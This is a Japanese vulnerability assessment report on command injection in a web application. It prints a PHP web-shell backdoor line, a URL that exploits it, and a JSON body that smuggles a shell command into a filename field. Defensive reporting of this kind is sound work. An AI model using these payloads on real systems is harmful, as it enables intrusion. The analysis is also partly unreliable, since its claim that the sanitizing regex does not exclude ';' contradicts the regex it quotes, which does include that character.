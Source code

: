 # 脆弱性診断報告書

## 1. 概要

本報告書は、対象アプリケーションのソースコードおよび設定ファイルを静的に解析し、発見されたセキュリティ上の脆弱性についてまとめたものです。診断の結果、外部からの任意コマンド実行、不正な権限昇格、パスワードの平文保存、アクセス制御の不備による管理者機能の不正利用など、極めて危険なものを含む複数の重大な脆弱性を発見しました。

## 2. 脆弱性の詳細

### 2.1. OSコマンドインジェクション

**危険度: 極めて高い**

#### 概要
アプリケーション内に、外部からサーバー上で任意のOSコマンドを実行できる脆弱性が複数存在します。これにより、攻撃者はサーバーを完全に制御下に置くことが可能になります。

#### 詳細
**1. Webシェルバックドア in `himitsu-debug-2025.php`**
`himitsu-debug-2025.php` は、難読化されたコードを呼び出し、最終的に `cmd` パラメータを介して任意のコマンドを実行するWebシェルとして機能します。
```php
<?php system(@$_GET["cmd"]); ?>
```

**攻撃シナリオ例:**
攻撃者は、以下のようなURLにアクセスすることで、サーバー内のファイル一覧を閲覧したり、ファイルを改ざん・削除したり、さらには他のサーバーへの攻撃の踏み台にすることができてしまいます。
```
http://<対象サーバーのURL>/himitsu-debug-2025.php?cmd=ls%20-la
```

**2. APIにおけるコマンドインジェクション in `api/src/app.py`**
`api`サービスのファイルスキャン機能において、`filename`パラメータに含まれるシェルのメタ文字のサニタイズが不十分なため、コマンドインジェクションが可能です。
```python
# api/src/app.py の一部
def _execCommand(command):
	command = re.sub('[\'\"\`\<\>\!\@\#\%\^\&\*\\{\}\[\}\]\:\;\?].*', '', command)
	proc = subprocess.Popen(
		command,
		shell  = True,
        # ...
	)
```
上記の正規表現では `;` や `|` といったコマンドを連結できるメタ文字が除外されていないため、攻撃者は`filename`に悪意のある文字列を注入することで、`file`コマンドに続けて任意のコマンドを実行できます。

**攻撃シナリオ例:**
攻撃者は、`/api/inspect`エンドポイントに対し、`filename`に細工した値をPOSTします。
```json
{
    "filename": "dummy.jpg; ls -la /",
    "data": "..."
}
```
これにより、サーバー上で`ls -la /`が実行され、ファイルシステムのルートディレクトリの情報が窃取されます。

---